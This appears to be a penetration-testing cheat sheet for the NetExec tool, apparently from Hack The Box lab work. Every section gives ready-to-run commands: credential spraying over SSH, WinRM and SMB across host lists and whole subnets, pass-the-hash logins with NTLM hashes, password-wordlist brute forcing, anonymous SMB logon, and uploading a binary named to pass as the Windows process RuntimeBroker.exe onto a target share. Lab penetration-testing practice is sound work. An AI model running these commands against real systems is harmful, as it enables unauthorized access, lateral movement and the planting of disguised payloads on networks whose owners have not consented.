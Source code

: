 # NetExec

### SSH

* attempt ssh authentication to multiple hosts with one set of credentials&#x20;

```
./nxc ssh targets.txt -u james -p password123
./nxc ssh targets.txt -u balthazar -p 'password123'
./nxc ssh targets.txt -u root -p asdfghjkl
```

* attempt ssh auth to any host in a subnet with one set of credentials&#x20;

```
./nxc ssh 172.16.1.0/24 -u james -p password123
```

### WINRM

* attempt winrm authentication to multiple hosts with one set of credentials&#x20;

```
./nxc winrm targets.txt -u balthazar -p 'abc123!!!'
# domain authentication
./nxc winrm targets.txt -u 'HTB.local\balthazar' -p 'abc123!!!' 
./nxc winrm targets.txt -u 'HTB.local\james' -p password123
```

* attempt winrm authentication to a domain with a username and hash

```
./nxc winrm targets.txt -d HTB.local -u blake -H 12f18eteb6f8187fa52f3f729896bbb7
./nxc winrm targets.txt -u Administrator -H b99ed3c3d34c4576bcd33c76420be934
```

* winrm with a single username and a password wordlist

```
./nxc winrm 172.16.1.101 -u dan.hard -p 172.16.1.101/passwordlist.txt 
```

### SMB

* attempt smb authentication to multiple hosts with one set of credentials&#x20;

```
./nxc smb targets.txt -u 'HTB.local\james' -p password123
```

* attempt ssh authentication with a keyfile instead of a password

```
./nxc ssh 172.16.1.0/24 -u root --key-file ./10.10.110.100/ssh/id_rsa -p ''
```

* attempt smb auth to any host in a subnet with anonymous logon&#x20;

```
./nxc smb 172.16.1.0/24 -u anonymous -p ''
```

* smb authentication to a domain with a specific username and attempt a password wordlist

```
./nxc smb 172.16.1.13 -d DANTE.local -u 'gerald' -p /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 
```

### Put file

```
./nxc smb 172.16.1.13 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:d0629f5539666892bf9ba9b34daa125c --put-file /opt/wmiexec2/RuntimeBroker.exe \\xampp\\apache\\bin\\iconv\\RuntimeBroker.exe
```

